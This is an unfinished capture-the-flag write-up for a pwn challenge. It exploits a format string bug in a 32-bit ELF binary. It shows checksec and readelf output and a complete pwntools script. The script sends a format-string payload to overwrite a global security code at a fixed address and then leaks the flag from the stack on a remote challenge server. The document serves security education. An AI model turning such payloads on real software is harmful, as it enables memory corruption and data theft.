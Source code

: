 ## Security Code [445 pts]

**Category:** Pwn
**Solves:** 36

### Description
>Can you print the flag?

## Solution

In this challenge we are provided an 32bit ELF binary which is vulnerable to format string.
First I checked `checksec` command on this file:

```bash
$ checksec --file=securitycode 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   83) Symbols	  No	0
```

As we can se PIE is not enabled and checking these details we can use typical format string techniques to exploit this bug.
Decompiling this binary with IDA results us with following images:


![main](images/1.jpg)
![hello_admin](images/1.jpg)
![auth_admin](images/1.jpg)

As we can see in the images we should change value in `security_code` using format strings to pass the condition,
And get to the `auth_admin` which will lead us to flag.

Our next step is to find reference location of `security_code`. using `readelf`:

```bash
$ readelf -a securitycode | grep security_code
    66: 0804c03c     4 OBJECT  GLOBAL DEFAULT   26 security_code
```

### Writeup is not completed, will be completed with more details

Here is the final exploit code to receive the flag:

```python
from pwn import *

flag = ''

for i in range(30):
    # r = process("./securitycode")
    r = remote('185.97.118.167', 7040)

    # Value to overwrite is: xABADCAFE
    # ABAD: 43949
    # CAFE: 51966

    r.recvuntil("Enter 'A' for admin and 'U' for user.")
    r.sendline('A')
    r.recvuntil('Enter you name:')

    payload = '\x3e\xc0\x04\x08\x3c\xc0\x04\x08%43941x%15$hn%8017x%16$hn'
    r.sendline(payload)

    # Now try to read 6 bytes of the flag
    r.recvuntil('Enter your password:')
    payload = '%{}$x'.format(i)
    r.sendline(payload)

    x = r.recvline()
    x += r.recvline()
    x += r.recvline()
    x = x.replace('The password is ', '').strip()
    # print(x.decode('hex'))
    try:
        flag += bytearray.fromhex(x).decode()[::-1]
    except:
        pass

print(flag)
```
